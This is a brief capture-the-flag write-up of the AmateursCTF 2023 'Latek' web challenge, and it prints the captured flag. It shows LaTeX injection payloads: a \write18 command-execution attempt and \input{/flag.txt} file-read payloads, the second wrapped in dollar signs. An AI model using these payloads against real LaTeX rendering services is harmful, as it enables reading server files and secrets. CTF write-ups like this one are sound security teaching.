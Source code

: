 Web/Latek

![image](https://github.com/AbzeeSaminu/AmateursCTF-2023/assets/113645443/e1116132-cd8a-4cdf-a935-b773cf25864f)

Latek which is Latex is a pretty cool challenge and very easy, you can find about Latex injection on hacktricks or any other website so let get to the fun part by visiting the challenge webpage.

![image](https://github.com/AbzeeSaminu/AmateursCTF-2023/assets/113645443/3f05964d-19a9-4e07-a5e3-fb657a0d061e)

I tried to execute command using this ```\write18{id}``` but unfortuanately the runsystem has been disable then I decided to try out this payload to read the content of the flag.
```
\documentclass{article}
\begin{document}
\input{/flag.txt}
\end{document}
```
In Latex injection you can use this command ```\input{command}``` to read files only.

![image](https://github.com/AbzeeSaminu/AmateursCTF-2023/assets/113645443/4c7d4688-7e01-448b-aa42-5cf3cc152c0a)

We got an incomplete flag but looking at the error it gave out, We are missing a dollar sign $ in our payload so let add it to the payload.
```
\documentclass{article}
\begin{document}
$\input{/flag.txt}$
\end{document}
```

![image](https://github.com/AbzeeSaminu/AmateursCTF-2023/assets/113645443/cebf683e-f26e-4730-843e-e378924363e1)

And boom we have our flag.

Flag: amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}
